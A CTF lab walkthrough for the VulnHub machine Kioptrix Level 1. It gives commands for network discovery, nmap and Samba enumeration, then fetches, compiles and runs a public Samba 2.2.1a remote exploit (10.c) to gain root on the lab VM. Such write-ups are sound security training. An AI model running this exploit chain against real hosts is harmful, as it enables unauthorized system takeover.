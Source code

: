 ```yaml
---
title: "Vulhub-Kiotrix Level 1 Walkthrough"
date: 2024-01-24
categories: [Vulnhub, CTF ]
image: /assets/Kioptrix_Cover.jpg
tags: [Kioptrix, Boot2Root, Penetration Testing, Samba Exploit]
description: "A walkthrough for hacking the vulnerable machine Kioptrix Level 1 from VulnHub."
active: false
---
```


<script>
  // Set to `false` if the machine is active and writeup should be hidden
  const isRetired = false;

  document.addEventListener("DOMContentLoaded", function () {
    const walkthrough = document.getElementById("walkthrough");
    const warning = document.getElementById("retirement-warning");

    if (isRetired) {
      walkthrough.style.display = "block";
      warning.style.display = "none";
    } else {
      walkthrough.style.display = "none";
      warning.style.display = "block";
    }
  });
</script>

<div id="retirement-warning" style="display:none; border: 1px solid #f00; padding: 1em; background: #fee;">
  <h2>🚫 Walkthrough Not Available</h2>
  <p>This machine is still active. Write-ups are restricted until it is retired.</p>
  <p>Please review <a href="https://help.hackthebox.com/en/articles/5184601-writeups-policy" target="_blank">HTB’s write-up policy</a> for more info.</p>
</div>

<div id="walkthrough" style="display:none;">

## Introduction
Welcome to the Kiotrix Level 1 challenge. This is a walkthrough for hacking the vulnerable machine **Kioptrix Level 1** from VulnHub. There are various ways to root this box, and I will keep the process clear and concise. Let's get started.

## Challenge Details
- **Name:** Kiotrix Level 1  
- **Category:** Boot2Root  
- **Difficulty:** Easy  

## Prerequisites
Before you begin, ensure that you have the following:
- **Kali Linux** or any other preferred penetration testing distribution.
- **Kioptrix Level 1 VM** installed and running.
![Kioptrix VM Running](../assets/1kioprix.png)


## Walkthrough
### Step 1: Reconnaissance
#### Network Discovery and Setup
Execute the following command on your attack machine to check if Kioptrix Level 1 is on the network:
```bash
arp-scan -l
```
If Kioptrix is not detected, troubleshoot and ensure it is installed correctly.
![Kioptrix VM Running](../assets/2kioptrix.png)
Identified IP address:
```bash
192.168.10.171
```

### Step 2: Enumeration
Run an Nmap scan to identify open ports and services:
```bash
nmap -A -p- -T4 192.168.10.171
```
The results show that **port 80 is open**, displaying a test page in the browser.
![Kioptrix VM Running](../assets/4kioptrix.png)
![Kioptrix VM Running](../assets/3kioptrix.png)
Additionally, **Samba service** is detected, which will be crucial for privilege escalation.

### Step 3: Samba Enumeration
Utilize `enum4linux` and `smbclient` to confirm the presence of Samba on the remote host.
![Kioptrix VM Running](../assets/5kioptrix.png)
Start Metasploit and use the auxiliary scanner:
![Kioptrix VM Running](../assets/6kioptrix.png)
```bash
msfconsole
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.10.171
run
```
![Kioptrix VM Running](../assets/6kioptrix.png)
The results show that **Samba 2.2.1a** is running, which is vulnerable to multiple exploits.

### Step 4: Exploitation - Samba 2.2.1a
Search for available exploits using `searchsploit`:
```bash
searchsploit samba 2.2.1a
```
The results show multiple exploits, and we choose `multiple/remote/10.c`.
![Kioptrix VM Running](../assets/9kioptrix.png)
Download the exploit:
```bash
searchsploit -m multiple/remote/10.c
```
![Kioptrix VM Running](../assets/10kioptrix.png)
Compile the exploit:
```bash
gcc -o sambaexploit 10.c
```
![Kioptrix VM Running](../assets/11kioptrix.png)
Execute the exploit:
```bash
./sambaexploit -b 192.168.10.171
```
![Kioptrix VM Running](../assets/12kioptrix.png)
After execution, verify root access:
```bash
whoami
```
![Kioptrix VM Running](../assets/13kioptrix.png)
![Kioptrix VM Running](../assets/14kioptrix.png)
## Conclusion
You've successfully completed Kiotrix Level 1. This walkthrough provided a step-by-step guide to solving the challenge. If you encountered any issues or have questions, feel free to reach out!

Remember to document and understand the techniques used, as they may be helpful in future CTFs. **Happy hacking!**
</div> <!-- End walkthrough -->
